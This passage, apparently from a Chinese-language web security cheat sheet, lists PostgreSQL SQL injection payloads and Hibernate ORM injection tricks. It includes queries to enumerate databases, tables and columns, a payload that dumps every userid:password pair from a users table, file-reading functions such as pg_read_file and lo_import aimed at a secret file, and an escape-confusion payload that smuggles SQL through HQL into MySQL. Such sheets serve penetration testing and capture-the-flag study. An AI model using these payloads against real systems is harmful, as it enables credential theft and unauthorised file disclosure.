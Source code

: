     - `limit a offset b` 略過前 b 筆，抓出 a 筆出來
- 註解
    - `--`
    - `/**/`
- 爆庫名
    - `SELECT datname FROM pg_database`
- 爆表名
    - `SELECT tablename FROM pg_tables WHERE schemaname='dbname'`
- 爆Column
    - `SELECT column_name FROM information_schema.columns WHERE table_name='admin'`

- Dump all 
    - `array_to_string(array(select userid||':'||password from users),',')`
- 其它
    - version()
    - current\_database()
    - user
        - current_user
        - `SELECT usename FROM pg_user;`
    - current\_schema
    - current\_query()
    - inet\_server\_addr()
    - inet\_server\_port()
    - inet\_client\_addr()
    - inet\_client\_port()
    - type conversion
        - `cast(count(*) as text)`
    - `md5('abc')`
    - `replace('abcdefabcdef', 'cd', 'XX')` => `abXXefabXXef`
    - `pg_read_file(filename, offset, length)`
        - 讀檔
        - 只能讀data_directory下的
    - `pg_ls_dir(dirname)`
        - 列目錄內容
        - 只能列data_directory下的
    - PHP的`pg_query()`可以多語句執行
    - `lo_import()`, `lo_get()`讀檔
        - `select cast(lo_import('/var/lib/postgresql/data/secret') as text)` => `18440`
        - `select cast(lo_get(18440) as text)` => `secret_here`

# Other
## ORM injection
https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications

- Hibernate
    - 單引號跳脫法
        - MySQL中，單引號用`\'`跳脫
        - HQL中，用兩個單引號`''`跳脫
        - `'abc\''or 1=(SELECT 1)--'`
            - 在HQL是一個字串
            - 在MySQL是字串+額外SQL語句
    - Magic Function法
        - PostgreSQL中內建`query_to_xml('Arbitary SQL')`
        - Oracle中有`dbms_xmlgen.getxml('SQL')`
